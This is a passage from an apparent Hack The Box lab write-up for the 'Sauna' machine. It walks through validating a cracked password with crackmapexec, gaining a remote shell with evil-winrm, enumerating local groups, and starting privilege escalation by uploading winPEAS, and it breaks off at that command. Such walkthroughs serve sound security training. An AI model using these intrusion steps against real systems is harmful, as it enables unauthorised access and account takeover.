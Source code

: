 ![hashcat_smith](GitHubv2/HackTheBox/EASY/Sauna/screenshots/hashcat_smith.png)

Password found: **Thestrokes23**

---
### 3.4 Validating Credentials

Check SMB and WinRM access:

```bash
crackmapexec smb 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
crackmapexec winrm 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
```

![winrm_fsmith](GitHubv2/HackTheBox/EASY/Sauna/screenshots/winrm_fsmith.png)

Login is successful.

---
### 3.5 WinRM Access

We gain a shell with Evil-WinRM:

```bash
evil-winrm -i 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
```

![user_flag](GitHubv2/HackTheBox/EASY/Sauna/screenshots/user_flag.png)

🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Identifying New User

Check local groups:

```powershell
net localgroup "Remote Management Users"
```

![user_rmu](GitHubv2/HackTheBox/EASY/Sauna/screenshots/user_rmu.png)

We find another account: **svc_loanmgr**.

---
### 4.2 Credential Discovery with WinPEAS

Upload and run `winPEAS.exe`:

![winpeas_upload](GitHubv2/HackTheBox/EASY/Sauna/screenshots/winpeas_upload.png)

```powershell
.\winPEASx64.exe
```
